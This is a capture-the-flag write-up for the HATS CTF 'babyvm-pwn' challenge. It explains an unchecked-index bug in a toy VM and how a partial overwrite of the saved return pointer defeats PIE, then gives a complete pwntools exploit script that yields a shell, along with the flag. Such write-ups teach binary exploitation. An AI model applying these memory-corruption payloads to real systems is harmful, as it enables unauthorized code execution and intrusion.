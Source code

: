 ```yaml
---
title: "babyvm-pwn [500]"
tags: [HATS CTF, Binary Exploitation]
excerpt: "Binary Exploitation"
layout: single
classes: wide
--- 
```


**Category:** Binary Exploitation

> Now the vm is hosted on a server, i feel like there is something hidden in the server too...  
> 
> nc challs.hats.sg 1308

Hint:  
> Can you modify the return pointer?

## Write-up
Before reading this writeup, I suggest reading the writeup for **[babyvm-re [500]](/babyvm-re/)** if you have not done so. The explanation of source code and "reversing part" of the challenge is explained there.

We start by running `checksec` on the binary:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Note that both ASLR and PIE are enabled. ASLR randomizes the address of the stack, heap and libc, while PIE randomizes the address of .text section by initializing a random offset everytime the binary is run. This means the address of user defined functions in code, such as **win** or **main**, will not be fixed.

Here are the important parts of the source code:

**vmstep** function:
```c
int vmstep(char op,char* stack){
    switch(op | 0x20){
        case '0':
        case '1':
        case '2':
        case '3':
        case '4':
        case '5':
        case '6':
        case '7':
        case '8':
        case '9':
            ax = (op | 0x20) - 0x30;
            break;
        case 'a':
            ax += stack[sp];
            break;
        case 'd':
            --ax;
            break;
        case ' ':
        case 'e':
            return 0;
        case 'i':
            ++ax;
            break;
        case 'j':
            ip += ax - 1;
            break;
        case 'm':
            ax *= stack[sp];
            break;
        case 'p':
            printf("%c",stack[sp]);
            break;
        case 'r':
            sp = ax;
            break;
        case 's':
            ax -= stack[sp];
            break;
        case 'u':
            stack[sp] = ax;
            break;
        case 'z':
            if(stack[sp] == 0){
                ip += ax - 1;
            }
            break;
        default:
            break;
    }
    return 1;
}
```

Part of the code in **main**:
```c
    char key[101]={},
         stack[101]={},
         input[1337]={},
         code1[] = "2u4mmimmiup2u6mimimimup2u7mmimmup2u6mmimmiup2u7mmmimup2u4mmmup2u7mmimmup2u6mimmmup2u6mmimmiup2u4mmmup2u6mimmimiup2u6mmimmiup2u7mimmmiup2u5mup",
         code2[] = "2u5mmimimup2u6mmimmiup2u7mmmimup2u6mimmmiup2u6mmimimup2u7mimmmiup2u6mimmmiup2u6mimimimup2u6mmimimiup2u5mup",
         code3[] = "0r2u6mmr2u6mmimmiu0r2u5mimir2u5mmmu0r2u5mimr2u4mmmiu0r2u5mmir2u5mmmimiu0r2u5mmr2u4mimmiu0r2u4mimir2u7mimu0r2u4mimr2u6mmmmu0r2u4mmir2u4mimimimu0r2u4mmr2u5mimimimu0r2u7mir2u6mmimimu0r2u7mr2u5mimmmu0r2u6mir2u5mmmimu0r2u6mr2u5mmmiu0r2u5mir2u4mimimu0r2u5mr2u5mmimmiu9r2u5mmimu8r2u6mimmimu7r2u5mimmmu6r2u6mmimimiu5r2u7mmmmiu4r2u7mmimimiu3r2u5mmmmu2r2u5mmmimu1r2u4mmmmu0r2u4mimmmu",
         code4[] = "2u5mmimimiup2u7mmmimup2u6mimimimiup2u6mimimimup2u6mmimimiup2u4mmmup2u6mimmimiup2u6mmimmiup2u7mimmmiup2u4mmmiup2u5mup",
         code5[] = "2u4mmimimup2u6mimimmup2u6mmmmiup2u6mmimimiup2u4mmmup2u7mmimup2u4mmmup";
    int i;
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    vmexec(code1,stack);
    scanf("%1337s", &input);
    vmexec(code2,stack);
    vmexec(input,key);
    vmexec(code3,stack);
```

The challenge has a vulnerability similar to a buffer overflow. The statement `vmexec(input,key);` allows us to write instructions to overwrite values in the `key` buffer. However, as **vmstep** does not check `ax` to ensure its value is within range of the buffer, we are essentially able to overwrite any location in memory relative to the location of `key` in memory. 

These instructions are essential to exploiting the vulnerability:
* `0` sets the value of `ax` to 0.
* `d` decreases the value of `ax` by 1.
* `i` increases the value of `ax` by 1.
* `r` sets the value of `sp` to the value of `ax`. Basically, `sp = ax`.
* `a` adds the value at `stack[sp]` to `ax`. Basically, `ax += stack[sp]`.
* `u` sets the value at `stack[sp]` to the value of `ax`. Basically, `stack[sp] = ax`.

Here's an example to help you visualize the vulnerability. If the input contains: 
```python 
'0' + 'i'*999 + 'ru'
```
We would overwrite `key[999]` with the value 999. As seen in the example, we are able to overwrite any area in memory as long as our payload is not more than 1337 characters.

The exploit works by overwriting the return instruction pointer (RIP) with the address of **win**, which would give us a shell. Developing the exploit has 3 stages:

1. **Finding the offset of RIP**  
We can find the offset of RIP from the `key` buffer by a trial and error process. This can be done by overwriting every value up to a certain offset and using gdb to check if RIP is overwritten. We increase the offset if gdb is not overwritten, and decrease if it is overwritten. Keep in mind that the address of RIP would be smaller than the address of `key`, hence the offset should be negative.

2. **Calculating the address of win**  
Due to PIE, the address of **win** will change everytime the binary is run. This means that the base offset of the address will change and only the last 2 bytes are known.   

   Luckily for us, when we overwrite RIP, it contains the address of `main + 1501`. This means we only have to overwrite the last 2 bytes of RIP to call **win**, thus bypassing PIE. The last byte of **win**, which is fixed, is 0xa1. We can calculate the second last byte using `offset = (saved_rip - win) >> 8`, where `saved_rip` is the address of `main + 1501` and `win` is the address of **win**. This works as the difference between **win** and `main + 1501` is constant regardless of PIE.

3. **Overwriting RIP with the address of win**  
An offset of 103 overwrites the second last byte of RIP while 104 overwrites the last byte. The following code overwrites the last 2 bytes of RIP to become the address of **win**:
   ```python
    payload = '0' + 'd'*103 + 'r' + "0au" + 'd'*offset + 'u'
    payload += '0' + 'd'*104 + 'r' + '0' + 'i'*0xa1 + 'u'
   ```    

Here's the final exploit used to solve the challenge:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./chal",
    #"libc" : "./",
    #"ld" : "./",
    "HOST" : "challs.hats.sg",
    "PORT" : 1308,
}

def exploit(p):
    win = elf.symbols['win']
    saved_rip = elf.symbols['main']+1501
    offset = (saved_rip - win) >> 8

    payload = '0' + 'd'*103 + 'r' + "0au" + 'd'*offset + 'u'
    payload += '0' + 'd'*104 + 'r' + '0' + 'i'*0xa1 + 'u'
  
    sla("Enter the key\n", payload)
    p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```

**Flag:** HATS{vm5_4r3_c00l_4r3n7_7h3y}